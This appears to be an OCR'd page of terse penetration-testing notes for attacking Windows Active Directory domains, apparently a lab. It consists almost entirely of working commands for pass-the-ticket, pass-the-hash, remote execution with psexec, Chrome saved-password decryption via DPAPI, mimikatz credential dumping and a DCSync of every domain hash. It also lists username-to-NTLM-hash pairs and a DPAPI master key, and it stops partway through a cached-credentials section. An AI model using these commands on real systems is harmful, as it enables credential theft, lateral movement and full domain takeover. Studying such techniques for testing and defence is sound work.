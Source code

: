 ntpdate 10.65.1.20  
export KRB5CCNAME=/opt/impacket3/examples/case.ccache  
python3 psexec.py  -dc-ip 10.65.1.20 -k -no-pass kinetic.corp/case@viperwarhawk  
rubeus.exe ptt /ticket:  
klist  
psexec.exe -accepteula [\\](file:///\\viperwarhawk)viperwarhawk cmd  
rubeus.exe asktgt /domain:kinetic.corp /user:case /rc4:76e1f33b798c3cd6ed74620d21a33299 /ptt  
psexec.exe -accepteula [\\](file:///\\viperwarhawk)viperwarhawk cmd  
## Pass The Ticket (PTT)  
whoami /user  
python3 getTGT.py kinetic/kram -dc-ip 10.65.1.20 -hashes :facdafa55f0a85ceaf649f33cbca001a  
ntpdate 10.65.1.20  
python3 ticketConverter.py kram.ccache kram.kirbi  
export KRB5CCNAME=/opt/impacket/examples/kram.kirbi  
python3 psexec.py kinetic/kram@polar -k -no-pass  
python3 getTGT.py kinetic/case -dc-ip 10.65.1.20 -hashes :76e1f33b798c3cd6ed74620d21a33299  
python3 getTGT.py zero/zonia -dc-ip 10.65.20.20 -hashes :fbd22237b572e96f60c60937accd2001  
case:76e1f33b798c3cd6ed74620d21a33299  
kram:facdafa55f0a85ceaf649f33cbca001a  
cyn:0dcd2a213251434b8b975a7ace3c2800  
krupp:f9383fe5e2b40087d129e12a32c1077e  
zonia:fbd22237b572e96f60c60937accd2001  
## DPAPI  
python3 DonPAPI.py ivory@area72 --hashes aad3b435b51404eeaad3b435b51404ee:f6cea93139ed5c1650951d8cad886346  
cd "C:\Users\ivory\AppData\Local\Google\Chrome\User Data\Default"  
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect  
python3 psexec.py ivory@area72 -hashes aad3b435b51404eeaad3b435b51404ee:f6cea93139ed5c1650951d8cad886346  
sekurlsa::dpapi  
dpapi::chrome /in:"C:\Users\ivory\AppData\Local\Google\Chrome\User Data\Default\Login Data" /masterkey:95ba88c28c65cdd5fe5c0fee398800634c60ef5fb53d5f15c18bf240c1001920ed7202b2d495ca97e1c16cb7842cad8a6c4af568ea681aa1e04f4e93b8d81992  
C:\Users\ivory\AppData\Local\Google\Chrome\User Data\Default  
## PtH  
crackmapexec smb area72 -d area72 -u ivory -H f6cea93139ed5c1650951d8cad886346  
crackmapexec smb area72 -d area72 -u ivory -H f6cea93139ed5c1650951d8cad886346 -X whoami  
python3 psexec.py ivory@area72 -hashes aad3b435b51404eeaad3b435b51404ee:f6cea93139ed5c1650951d8cad886346  
crackmapexec smb femmefatale -d zero.arc.corp -u zonia -H fbd22237b572e96f60c60937accd2001  
mimikatz.exe  
privilege::debug  
token::elevate  
sekurlsa::logonPasswords  
## PTT  
.\rubeus.exe asktgt /domain:zero.arc.corp /user:zonia /rc4:fbd22237b572e96f60c60937accd2001 /ptt  
## DCSync  
Import-Module ActiveDirectory  
cd 'AD:DC=ZERO,DC=ARC,DC=corp'  
(Get-AcL).Access | Where-Object {$_.ObjectType -eq '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2' -or $_.ObjectType -eq '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'}  
net user zonia /domain  
mimikatz.exe  
lsadump::dcsync /domain:zero.arc.corp /all /csv  
## Collecting Creds msCachv2  
mimikatz.exe  
privilege::debug  